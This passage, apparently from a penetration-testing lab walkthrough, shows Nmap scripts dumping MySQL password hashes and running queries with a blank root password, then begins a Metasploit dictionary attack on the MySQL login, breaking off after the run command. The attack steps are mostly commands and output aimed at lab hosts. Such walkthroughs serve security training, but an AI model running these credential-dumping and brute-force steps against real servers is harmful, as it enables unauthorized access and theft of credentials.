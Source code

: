 To dump the hashes using Nmap, we can use the following command:

```sh
root@attackdefense:~# nmap 192.21.161.3 -p3306 -sV --script=mysql-dump-hashes --script-args="username='root',password=''"
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-29 08:52 UTC
Nmap scan report for target-1 (192.21.161.3)
Host is up (0.000038s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-dump-hashes: 
|   debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
|   filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
|   ultra:*827EC562775DC9CE458689D36687DCED320F34B0
|   guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
|   sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
|   udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
|_  sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
MAC Address: 02:42:C0:15:A1:03 (Unknown)
```

We can also use Nmap to run a query:

```sh
root@attackdefense:~# nmap 192.21.161.3 -p3306 -sV --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''"
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-29 08:56 UTC
Nmap scan report for target-1 (192.21.161.3)
Host is up (0.000041s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-query: 
|   count(*)
|   10
|   
|   Query: select count(*) from books.authors;
|_  User: root
MAC Address: 02:42:C0:15:A1:03 (Unknown)
```

***

## MySQL Dictionary Attack

To brute force the login credentials, we can use the msfconsole:

<pre class="language-sh"><code class="lang-sh">msf5 > use auxiliary/scanner/mysql/mysql_login 
msf5 auxiliary(scanner/mysql/mysql_login) > set rhosts 192.28.228.3
rhosts => 192.28.228.3
msf5 auxiliary(scanner/mysql/mysql_login) > set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
pass_file => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/mysql/mysql_login) > set verbose false
verbose => false
msf5 auxiliary(scanner/mysql/mysql_login) > set stop_on_success true
stop_on_success => true
msf5 auxiliary(scanner/mysql/mysql_login) > set username root
username => root
msf5 auxiliary(scanner/mysql/mysql_login) > run

